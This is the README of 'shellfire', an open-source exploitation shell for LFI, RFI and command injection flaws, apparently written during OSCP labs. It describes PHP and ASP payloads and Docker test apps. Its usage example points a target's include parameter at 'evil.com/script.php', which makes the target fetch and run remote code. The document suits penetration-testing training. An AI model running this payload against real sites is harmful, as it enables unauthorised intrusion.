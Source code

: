 # shellfire

_shellfire_ is an exploitation shell which focuses on exploiting LFI, RFI, and 
command injection vulnerabilities.

Recently, I received some inspiration while working on my OSCP labs. I 
accidentally ended up writing this script, and it ended up helping me pwn a 
number of boxes in the labs.

Now that my labs are finished, I thought maybe other people could find this as 
useful as I have, so I decided to open source my tool.

## Features  

- [X] Persistent named configuration for multiple targets (and sharing!)  
- [X] Plugin system  
- [X] PHP payload  
- [X] ASP payload  
- [X] Dockerized vulnerable apps for testing  


## Installation  

Run `pip install -r requirements.txt` to install the application dependencies.  


## A few useful hints

To use shellfire, just fire it up via python (or add execute permissions and 
launch it directly). For example:

```
$ python shellfire.py
[*] ShellFire v0.1
[*] Type '.help' to see available commands
>>
```

You can type `.help` at any time for a list of available commands, or append 
the command you want to know more information about to help for specific 
details. For example `.help http`.

To start exploitation, you need to specify at least the URL of your target. 
Something like the following should work:

```
>> .url http://example.com/?path=http://evil.com/script.php
```

At this point, you should have enough to exploit easy vulnerabilities. You can 
simply start executing commands and they will be sent over to the target.

For more complex vulnerabilities, you may need to specify additional options. 
To exemplify, let's assume you needed to send a cookie with a session ID in 
order to exploit your target. You may want to add something like this:

```
>> .cookies { "session_id" : "123456789" }
```

Additional options, and information on how to use them, can be discovered by 
using the `.help` option in the shell.

Thanks to Offensive-Security for inspiring the creation of this utility.

Please use this tool for good.

Happy hacking!


## Testing  

The [docker](/docker) directory contains a small collection of vulnerable 
applications for testing shellfire's functionality.